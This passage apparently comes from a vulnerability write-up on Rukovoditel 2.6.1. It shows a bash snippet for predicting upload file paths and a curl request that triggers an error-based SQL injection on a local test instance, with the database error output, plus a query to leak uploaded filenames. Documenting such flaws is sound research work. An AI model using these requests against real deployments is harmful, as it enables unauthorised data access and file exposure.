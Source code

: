 ```bash
FULL_PATH=`echo -n "uploads/attachments/$DATE/$FILENAME"`
echo "  =>  full path: $FULL_PATH"
```

![alt text](../captures/c10_2.png "Figure 3: First part of the exploit (solution 1)")

I specify that if it had not worked directly it would have been possible to brute force the exact timestamp from an approximation made on the value of the Header `Date` or by starting the brute force from the timestamp of the current day.

#### Solution 2

In the previous chapter we learned that it was possible to perform an Error Based SQL injection.

```
▶ curl -s "http://127.0.0.1/projects/rukovoditel_2.6.1/index.php?module=reports/sorting&action=set_sorting_condition&reports_id=88" -H "Cookie: sid=1e58bba933b8f378888b9dc000e0901f" -d "field_id='"

      <app_db_error>
      <div style="color: #b94a48; background: #f2dede; border: 1px solid #eed3d7; padding: 5px; margin: 5px; font-family: verdana; font-size: 12px; line-height: 1.5;">
        <div><strong>Database Error:</strong> 1064 - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '_desc',''_asc') where id='88'' at line 1</div>
        <div><strong>Query:</strong> update app_reports set listing_order_fields=replace(listing_order_fields,''_desc',''_asc') where id='88'</div>
        <div><strong>Page: </strong> /projects/rukovoditel_2.6.1/index.php?module=reports/sorting&action=set_sorting_condition&reports_id=88</div>
      </div>
    
```

We can use this vulnerability to recover the newly generated filename with the SQL request: `SELECT filename FROM app_attachments ORDER BY id DESC LIMIT 1`.

![alt text](../captures/c10_3.png "Figure 4: First part of the exploit (solution 2)")
